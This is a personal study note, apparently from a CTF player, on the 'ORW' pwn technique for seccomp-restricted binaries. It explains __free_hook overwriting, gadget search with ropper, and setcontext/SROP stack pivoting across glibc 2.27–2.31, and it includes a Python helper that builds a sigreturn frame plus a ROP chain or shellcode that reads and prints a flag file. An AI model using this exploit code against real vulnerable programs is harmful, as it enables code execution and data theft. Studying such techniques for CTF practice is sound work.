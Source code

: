 ```yaml
---
title: ORW
updated: 2022-05-25T16:18:06.0000000+08:00
created: 2022-05-25T14:26:34.0000000+08:00
---
```


[*PWN-ORW总结 - X1ng's Blog*](https://x1ng.top/2021/10/28/pwn-orw%E6%80%BB%E7%BB%93/)
# free_hook setcontext
在只能open read write的情况下，有一次改写\_\_free_hook的机会，已知堆基址，libc基址

利用一个gadget+setcontext 把栈迁移到堆，然后在栈上用rop实现orw

[Glibc 2.31 Heap + Seccomp Exploitation Technique using ROP - Midas Blog (lkmidas.github.io)](https://lkmidas.github.io/posts/20210103-heap-seccomp-rop/)

[【PWNHUB双蛋内部赛】StupidNote Writeup - wjh's blog (wjhwjhn.com)](https://blog.wjhwjhn.com/archives/155/)

[(45条消息) 【八芒星计划】 ORW_Carol7S的博客-CSDN博客_orw](https://blog.csdn.net/carol2358/article/details/108351308)
## free_hook（rdi=堆块地址）
linux参数前6个参数依次放到rdi，rsi，rdx，rcx，r8，r9中；

执行free_hook时第一个参数(rdi)是free的堆块的地址。
## gadget
寻找将\[rdi\]赋值到rdx的gadget，因为后面的context结构体在rdx中

ropper -f /lib/x86_64-linux-gnu/libc-2.31.so --search 'mov rdx'

ropper -f /lib/x86_64-linux-gnu/libc-2.31.so --search 'mov rsi'

2.27

不用gadget，setcontext结构体就在rdi中

2.29 rdi = \[setcontext,frame\]

mov rdx, qword ptr \[rdi + 8\]; mov rax, qword ptr \[rdi\]; mov rdi, rdx; jmp rax;

2.31 rdi = \[0,frame\] rdx=\[0,0,0,0,setcontext\]

mov rdx, qword ptr \[rdi + 8\]; mov qword ptr \[rsp\], rax; call qword ptr \[rdx + 0x20\];
## setcontext（SROP) 栈迁移
## 利用
\# 参数：libc（有基地址）、rop/shellcode，堆地址（free的堆块地址）

\# 返回值 payload（堆块frame） layout（orw）freehook

\# freehook 运行setcontext 读出payload

\# frame执行read 将layout读取到page处（free_hook在的bss页）rsp也定位到page+8

\# 随后栈迁移到page+8 执行layout里的rop们

def SROP(libc, use_rop = 1, heap_addr = 0):

def find_rop(gadget):

for gad in rop:

if gadget in gad:

return libc.address + int(gad.split(':')\[0\], 16)

page = libc.sym\['\_\_free_hook'\] & 0xfffffffffffff000

frame=SigreturnFrame()

frame.rsp = page+8

frame.rdi = 0

frame.rsi = page

frame.rdx = 0x2000

frame.rip = libc.sym\['read'\]

payload=bytes(frame)

with open('./ropper.txt', 'r') as f:

rop = f.read().splitlines()

rax = find_rop(': pop rax; ret;')

rdi = find_rop(': pop rdi; ret;')

rsi = find_rop(': pop rsi; ret;')

rdx = libc.address + 0x000000000015f7e6

syscall = find_rop(': syscall; ret;')

if use_rop:

layout=b'./flag\0\0'+p64(rax)+p64(2)+p64(rdi)+p64(page)+p64(rsi)+p64(0)+p64(rdx)+p64(0)+p64(0)+p64(syscall)

layout+=p64(rdi)+p64(3)+p64(rsi)+p64(page+0x100)+p64(rdx)+p64(0x40)+p64(0)+p64(libc.sym\['read'\])

layout+=p64(rdi)+p64(1)+p64(rsi)+p64(page+0x100)+p64(rdx)+p64(0x40)+p64(0)+p64(libc.sym\['write'\])

else:

layout_rop = flat(0, rdi, page, rsi, 0x1000, rdx, 7, 0, libc.sym\['mprotect'\], page+0x50)

layout_shellcode = asm('''

sub rsp, 0x800

push 0x67616c66

mov rdi, rsp

xor rsi, rsi

xor rdx, rdx

mov eax, 2

syscall

cmp eax, 0

js failed

mov edi, eax

mov rsi, rsp

mov edx, 0x100

xor eax, eax

syscall

mov edx, eax

mov rsi, rsp

mov edi, 1

mov eax, edi

syscall

jmp exit

failed:

push 0x6c696166

mov edi, 1

mov rsi, rsp

mov edx, 4

mov eax, edi

syscall

exit:

xor edi, edi

mov eax, 231

syscall'''

)

layout = layout_rop + layout_shellcode

if LIBC_VERSION == '2.27':

return payload, layout, libc.sym\['setcontext'\]+0x35

else:

\# header = flat(0, heap_addr+0x28, 0, 0, libc.sym\['setcontext'\]+0x35)

payload = unpack_many(payload)

payload\[1\] = heap_addr

payload\[4\] = libc.sym\['setcontext'\]+0x3d

payload = flat(payload)

return payload, layout, libc.address+0x1518B0#9.7

\# return payload, layout, libc.address+0x151990#9.8

